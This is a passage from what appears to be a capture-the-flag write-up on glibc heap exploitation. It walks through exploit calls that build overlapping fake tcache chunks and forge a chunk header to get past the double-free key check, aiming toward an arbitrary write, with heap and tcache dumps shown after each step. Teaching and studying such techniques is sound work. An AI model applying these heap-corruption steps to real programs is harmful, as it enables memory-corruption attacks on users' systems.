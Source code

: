 
If I want to get access to this chunk, I’ll first need to get 2b0 out of the
way. I can’t just get it and free it, or it will end up back in the same
place. So I’ll get it, edit it to a smaller size, and then free that, so that
two smaller chunks go into tcache, leaving the fake chunk ready to be used.

    
    
    add('B3', 0x40)                                 # fake in 0x50 tcache, f2 -> B
    edit('B3', 0x20)                                # B-end in 0x20 tcache
    rm('B3')                                        # B in 0x30 tcache
    

Now I’ll add a 0x40 entry, and it will return 290, which I can use to
overwrite into B. Before I do that, I have another problem. I want to free B2,
but I can’t because it will return a double free error. It is checking the key
that comes 0x10 after the size meta, so I need to change that. Luckily, I have
this new overlapping chunk. So I’ll create it such that it leaves the 0x51 the
same, puts a null for the next tcache, and changes the key.

    
    
    add('fake1', 0x40, p64(0)*3 + p64(0x51) + p64(0))
    

Now the heap shows the key is no longer matching the bad value:

    
    
    0x55555555c250: 0x0000000000000000      0x0000000000000051
    0x55555555c260: 0x0000000000000000      0x000055555555c010
    0x55555555c270: 0x0000000000000000      0x0000000000000000
    0x55555555c280: 0x0000000000000000      0x0000000000000061
    0x55555555c290: 0x0000000000000000      0x0000000000000000
    0x55555555c2a0: 0x0000000000000000      0x0000000000000051
    0x55555555c2b0: 0x0000000000000000      0x000055555555000a  <-- no pointer and key ends in "\x00\x0a" and not "\xc0\x10"
    0x55555555c2c0: 0x0000000000000000      0x0000000000000000
    0x55555555c2d0: 0x0000000000000000      0x0000000000000021
    0x55555555c2e0: 0x0000000000000000      0x000055555555c010
    0x55555555c2f0: 0x0000000000000000      0x0000000000020d11
    

I’ll free both B2 and fake1, both going into tcache where I can use them at
the end once I need a way to write to arbitrary addresses.

    
    
    rm('fake1')
    rm('B2')
    

The tcache now looks like:

    
    
    (0x20)   tcache_entry[0](1): 0x55555555c2e0
    (0x30)   tcache_entry[1](1): 0x55555555c2b0 (overlap chunk with 0x55555555c2d0(freed) )
    (0x50)   tcache_entry[3](1): 0x55555555c2b0 (overlap chunk with 0x55555555c2d0(freed) )
    (0x60)   tcache_entry[4](1): 0x55555555c290 (overlap chunk with 0x55555555c2d0(freed) )
    

#### Second Fake Chunk
